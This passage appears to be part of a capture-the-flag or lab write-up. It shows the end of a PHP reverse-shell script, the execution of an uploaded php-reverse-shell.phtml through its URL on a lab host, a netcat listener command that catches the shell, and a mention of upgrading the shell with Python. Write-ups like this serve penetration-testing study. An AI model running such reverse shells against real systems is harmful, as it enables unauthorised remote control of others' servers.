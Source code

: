 ```php
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?>
```

We can easily execute our `php-reverse-shell.phtml` file by visiting the link `http://10.10.110.48:3333/internal/uploads/php-reverse-shell.phtml`&#x20;

<figure><img src="../.gitbook/assets/execution_rev_shell.png" alt=""><figcaption><p>Execution of uploaded exploit</p></figcaption></figure>

To connect to the reverse shell we create a simple netcat listener using:

```bash
nc -vnlp 4444
```

<figure><img src="../.gitbook/assets/netcat_shell.png" alt=""><figcaption><p>reverse shell in action</p></figcaption></figure>

We can make this shell better by spawning a bash shell with python. This will help us run commands through shell access that is not possible through this reverse shell.

<figure><img src="../.gitbook/assets/good_shell_from_python.png" alt=""><figcaption><p>Python bash shell</p></figcaption></figure>
